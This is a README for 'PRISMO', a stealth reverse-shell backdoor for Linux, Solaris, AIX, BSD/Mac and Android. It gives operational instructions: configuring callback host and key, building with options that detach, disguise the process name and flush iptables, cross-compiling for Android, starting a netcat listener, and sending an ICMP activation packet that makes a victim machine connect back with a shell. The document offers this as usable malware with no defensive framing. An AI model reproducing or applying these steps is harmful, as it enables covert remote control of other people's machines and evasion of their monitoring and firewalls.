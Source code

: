 # Prism backdoor

PRISMO is an user space stealth reverse shell backdoor. 

It has been fully tested on:

* **Linux**
* **Solaris**
* **AIX**
* **BSD/Mac**
* **Android**

PRISMO can works in two different ways: **ICMP** and **STATIC** mode.

## Requirements 

'''
sudo apt install python-crypto
'''

## ICMP mode

Using this operation mode the backdoor waits silently in background for a specific ICMP packet 
containing the host/port to connect back and a private key to prevent third party access. 

* First, run **netcat** on the attacker machine to wait for incoming connection from the backdoor:
```bash
$ nc -l -p 6666 
```

* Using the **sendPacket.py** script (or another packet builder) send the activation packet to the backdoor: 
```bash
./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666
```
 **192.168.0.1**  is the victim machine running prismo backdoor  
 **p4ssw0rd** is the key  
 **192.168.0.10** is the attacker machine address  
 **6666** is the attacker machine port

* The backdoor will connect back to netcat!


## STATIC mode

Using this operation mode the backdoor try to connects to an hard-coded IP/PORT.  
In this case, just run netcat listening on the hard-coded machine/port:
```bash
 $ nc -l -p [PORT] 
```

## Features

* Two operating modes (ICMP and STATIC)
* Runtime process renaming
* No listening ports
* Automatic iptables rules flushing
* Written in pure C
* No library dependencies

## Get the code
```
git clone https://github.com/andreafabrizi/prismo.git
```

## Configuration

Before building, you have to configure the backdoor editing the source code.  
Following the configuration parameters description:

**STATIC mode:**  
*REVERSE_HOST*:   Machine address to connect back  
*REVERSE_PORT*:   Machine port to connect back  
*RESPAWN_DELAY*:  Time, in seconds, between each connection  

**ICMP mode:**  
*ICMP_KEY*:       Key/Password to activate the backdoor  

**Generic parameters:**  
*MOTD*:           Message to be printed at the backdoor connection  
*SHELL*:          Shell to execute  
*PROCESS_NAME*:   Fake process name  

## Building

`gcc <..OPTIONS..> -Wall -s -o prismo prismo.c`

Available GCC options:  
**-DDETACH**        #Run the process in background  
**-DSTATIC**        #Enable STATIC mode (default is the ICMP mode)  
**-DNORENAME**      #Doesn't renames the process  
**-DIPTABLES**     #Try to flush all iptables rules  

Example:  
`gcc -DDETACH -DNORENAME -Wall -s -o prismo prismo.c`

## Cross Compiling
* **Android**  
Change the shell to */system/bin/sh*  
`apt-get install gcc-arm-linux-gnueabi`  
`arm-linux-gnueabi-gcc -DSTATIC -DDETACH -DNORENAME -static -march=armv5 prismo.c -o prismo`

* **Linux 64bit** (using a 32bit host system)   
`apt-get install libc6-dev-amd64`  
`gcc -DDETACH -m64 -Wall -s -o prismo prismo.c`

* **Linux 32bit** (using a 64bit host system)   
`apt-get install libc6-dev-i386`  
`gcc -DDETACH -m32 -Wall -s -o prismo prismo.c`

## Backdoor building information

The backdoor ignore any command line parameter, except the **Inf0** (the last char is a digit).  
This option allow you to see some information about the backdoor:

```bash
$ ./prismo Inf0
 Version: 0.5
 Mode: icmp
 Key: p455w0rD
 Process name: [udevd]
 Shell: /bin/sh
 Detach: Yes
 Flush Iptables: No
```
